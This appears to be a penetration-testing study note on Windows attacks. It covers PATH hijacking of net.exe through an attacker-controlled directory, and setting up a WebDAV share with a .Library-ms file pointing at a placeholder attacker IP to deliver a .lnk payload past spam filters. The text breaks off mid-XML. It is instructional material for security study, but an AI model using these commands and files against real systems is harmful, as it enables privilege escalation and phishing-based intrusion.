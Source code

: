 #### Vulnerable Script or Service:
```
@echo off

rem The script attempts to add a user to the Administrators group
net localgroup Administrators MaliciousUser /add
```

#### Vulnerability:

If the script does not specify the full path to `net.exe`, it will search for `net.exe` in the directories listed in the `PATH` environment variable. An attacker could exploit this by doing the following:

1. **Create a Malicious `net.exe`**: The attacker creates a malicious `net.exe` that performs unintended actions, such as creating a backdoor user or downloading and executing malware.
    
2. **Modify the PATH**: The attacker modifies the `PATH` environment variable to include a directory they control at the beginning of the `PATH` order. This directory contains their malicious `net.exe`.

```
set PATH=C:\Users\Attacker\malicious_directory;%PATH%
```

**Execute the Vulnerable Script**: When the vulnerable script runs, it uses the `PATH` variable to locate `net.exe`. Since the attacker's directory is listed first in `PATH`, the system will execute the malicious `net.exe` instead of the legitimate one located in `C:\Windows\System32`.

## Abusing WIndows Library Files
Windows Library files (`.Library-ms`) connect users with data stored in remote locations (web services or shares).

### Example
Create a Windows library file connecting to a WebDAV share. In the webDAV directory, we will put a payload in the form of a `.lnk` file. We use the webDAV directory rather than our own web server to avoid spam filters. 

Steps:
1. Create the webdav directory
	1.`mkdir /home/kali/webdav`
	2. `touch /home/kali/webdav/test.txt`
	3. `/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav`
2. Prepare the `config.Library-ms` file
	1. Open VS Code
	2. File > New Text File
	3. Example code:
	   
	<?xml version="1.0" encoding="UTF-8"?>
	<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
	<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
	<searchConnectorDescription>
	<isDefaultSaveLocation>true</isDefaultSaveLocation>
	<isSupported>false</isSupported>
	<simpleLocation>
	<url>http://**$kaliIP**</url>
	</simpleLocation>
	</searchConnectorDescription>
